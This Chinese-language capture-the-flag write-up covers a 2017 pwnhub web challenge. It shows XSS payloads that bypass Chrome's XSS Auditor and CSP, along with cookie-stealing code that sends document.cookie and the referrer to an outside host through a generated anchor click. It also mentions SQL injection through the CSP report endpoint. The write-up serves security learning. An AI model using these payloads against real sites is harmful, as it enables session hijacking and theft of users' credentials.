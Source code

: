 ```yaml
---
title: pwnhub 改行做前端
date: 2017-08-15 23:21:49
tags:
- pwnhub
- xss
- csp
categories:
- Blogs
---
```


题目说实话是完成了一半，后一半是无意中上车的，有一些迷...关于注入部分是后来才发现的。

这里先按照我的思路来吧

<!--more-->

# self-xss #

站内有提交bug的地方，地址必须是`http://54.222.168.105:8065/`开头，也就是说我们必须找到一个self-xss的地方。

无意间发现，如果提交错误，那么错误是通过302跳回`?error=xxx`来输出到页面内jquery中，然后通过jquery输出到页面的，输出内容大多都经过了转义。

![image.png-199.5kB][1]

也就是说我们没办法通过闭合语句来执行js。

这里有一个小trick，假设`<>`没有被过滤，那么可以直接插入一个`</script>`，那么script闭合标签的优先级大于引号包裹，就会直接闭合。

![image.png-1102.1kB][2]

这下我们通过前后闭合，就可以在页面内插入任意标签了。现在又有了新的问题，因为题目中要求必须是最新版chrome，所以如果我们想要构造xss请求，就会被xss auditor拦截。

这里就需要几个长短短刚刚公布的基于换行的xss auditor bypass
```
<scirpt>(br=1)*/%0dalert(1)</script>
```

```
<script>alert(1)%0d%0a-->%09</script>
```
还有一种不闭合`</script`的方式，但是我本地测试失败了，不清楚是什么回事。

当我们能够bypass xss auditor的时候，出现了新的问题，CSP

![image.png-31.5kB][3]

这里有个小细节就是最后的`report-uri /report`，可能是看CSP太多了，完全没注意到这部分，就看到`unsafe-inline`就知道要干嘛了...这部分一会儿再说

因为有CSP，所以我们需要bypass unsafe-inline才能把数据发送出来。

测试了半天，不知道为什么不能使用location.href，可能是换行导致的语义有问题，这里我换用了a的click跳转，来发送数据出来。

```
var a=document.createElement("a");
a.href='http://xss.com/?cookie='+escape(document.cookie);
a.click();
```

因为单双引号会被转义，所以这里使用String.fromCharCode来替代所有的字符串。

最终打后台的payload
```
http://54.222.168.105:8065/?error=132</script><script>1<(br=1)*/%0dalert(1);a=document.createElement(String.fromCharCode(97));a.href=String.fromCharCode(104,116,116,112,58,47,47,48,120,98,46,112,119,63)%2bdocument.cookie;a.click();alert(2);</script>
```

这里有个小问题是`<>`是被过滤了，这里给了新的提示
```
2017.08.12 15:56:54后台代码：<a href="<?=htmlspecialchars($url)?>" target="_blank"><?=htmlspecialchars($url)?></a>，管理员会点击并查看，但要考虑浏览器的过滤。
```

链接是写入a标签的，bot通过点击来判断，那么我们本质上可以通过url编码或者html编码来绕过这部分判断，然后点击之后依然会进入链接，这里因为有htmlspecialchars在，所以html编码中的`&`就会被二次编码，所以只能使用url编码了。

```
http://54.222.168.105:8065/?error=132%3C%2fscript%3E%3Cscript%3E1%3C%28br=1)*/%0dalert(1);a=document.createElement(String.fromCharCode(97));a.href=String.fromCharCode(104,116,116,112,58,47,47,48,120,98,46,112,119,63)%2bdocument.referrer;a.click();alert(2%29%3B%3C%2fscript%3E
```

这里打到后台地址和cookie，进入后台发现一无所获，到很晚之后才发现后台有login.

但是我们无法登陆。

# 注入 #

这里我们又回到前台来，刚才我们提到CSP中有一部分`report-uri /report`

这是一个CSP中的功能，当请求处罚了CSP时，就会向report-uri发送一些信息

![image.png-121.2kB][4]

这里多个参数都存在注入点，其中过一个账号可以被解开，使用这个账号登陆后台就可以获得flag了。



  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/d8xt7lg79qpug1bg5h2iz12f/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/6r4v068dowoe21oko5dc3bbm/image.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/tncxdcdxhyndjiwzhd78bjlk/image.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/n422bqq6r3t2bbrlaab4kfc8/image.png